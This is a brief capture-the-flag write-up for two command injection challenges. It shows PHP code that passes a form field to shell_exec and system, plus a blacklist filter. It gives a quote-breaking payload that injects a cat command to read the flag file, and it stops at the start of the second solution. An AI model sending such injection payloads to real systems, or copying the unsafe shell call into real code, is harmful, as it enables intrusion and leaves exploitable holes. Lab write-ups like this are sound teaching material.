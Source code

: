 # DNS Lookup Tool Writeup

Tag: `Command Injection`

2 command injection challenges.

## Challenge 1

[http://h4ck3r.quest:8300/](http://h4ck3r.quest:8300/)

```php
/*TL;DR*/
<?= shell_exec("host '" . $_POST['name'] . "';") ?>
<?php endif; ?>
/*TL;DR*/
```

## Writeup 1

Basically no protection so it's a cakewalk.

We can view the flag name by `ls` then `cat` it.

```
';cat /flag_44ebd3936a907d59;'
```

## Challenge 2

`host` service with a "safe" check.

[http://h4ck3r.quest:8301/](http://h4ck3r.quest:8301/)

```php
/*TL;DR*/
<?php
$blacklist = ['|', '&', ';', '>', '<', "\n", 'flag'];
$is_input_safe = true;
foreach ($blacklist as $bad_word)
    if (strstr($_POST['name'], $bad_word) !== false) $is_input_safe = false;

if ($is_input_safe)
    system("host '" . $_POST['name'] . "';");
else
    echo "HACKER!!!";
?>
/*TL;DR*/
```

## Writeup 2

There are a few interesting things I found during my try and error.

